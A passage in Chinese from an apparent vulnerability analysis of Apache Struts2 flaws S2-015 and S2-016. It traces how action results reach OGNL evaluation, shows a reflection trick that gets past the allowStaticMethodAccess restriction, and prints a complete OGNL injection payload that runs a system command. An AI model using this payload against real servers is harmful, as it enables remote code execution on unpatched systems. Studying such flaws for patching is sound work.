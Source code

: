 ![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296659.png)

- 处理中间调用流程，在我们的配置中，使用 * 匹配了全部的 action 地址，并返回 `{1}.jsp` ，这些信息放在了 ResultConfig 对象中，最后处理结果时将会进行解析和渲染：
  
![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296661.png)

- DefaultActionInvocation 的 executeResult 方法 调用 StrutsResultSupport 的 `execute()` 方法 调用 `conditionalParse()` 最后调用 `TextParseUtil.translateVariables()` 方法解析这个地址。
  
![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296664.png)


可以看到此漏洞最终触发点实际上与 S2-012 是一致的。

需要注意的是，在 Struts 2.3.14.2 中，官方将 SecurityMemberAccess 类中成员变量 allowStaticMethodAccess 添加了 final 修饰符，并且将其 set 方法进行了删除。这就导致了我们不能通过 `#_memberAccess["allowStaticMethodAccess"]=true` 来改变其值，因为没有 set 方法了。但是至少有两种思路进行绕过：
- 使用反射修改其值：`#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),`；
- 使用非静态方法调用 POC：`new java.lang.ProcessBuilder(new java.lang.String[]{"open", "-a","Calculator.app"}).start()`。

因此最终 payload 为：
```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')}.action
```

当然此处使用 `%` 或 `$` 均可。

S2-015 中还通报了另一种导致漏洞的点，官方给出的漏洞范例如下：
```
<result type="httpheader">
    <param name="headers.foobar">${message}</param>
</result>
```
当用户输入参数被用来配置返回结果时，会遭到二次解析，这与上一个点的漏洞原理是相通的。

在处理返回结果时，处理响应包头部信息使用 HttpHeaderResult 类的 `execute()` 方法，取得`${message}` 的内容，然后调用 `TextParseUtil.translateVariables()` 进行解析。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296666.png)

payload 与之前一致。

# S2-016

与 S2-012 触发点一致，但入口点不同的漏洞。

> 影响版本：Struts 2.0.0 - Struts 2.3.15
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-016
> 描述：Struts2 提供了在参数中使用 `redirect:`、`redirectAction:` 前缀指定应用程序重定向路径或 action 的功能，处理重定向结果时没有过滤直接使用 OGNL 解析道导致出现漏洞。

在 DefaultActionMapper 中，定义了一些 PREFIX 常量，用来标识一些不同的前缀：
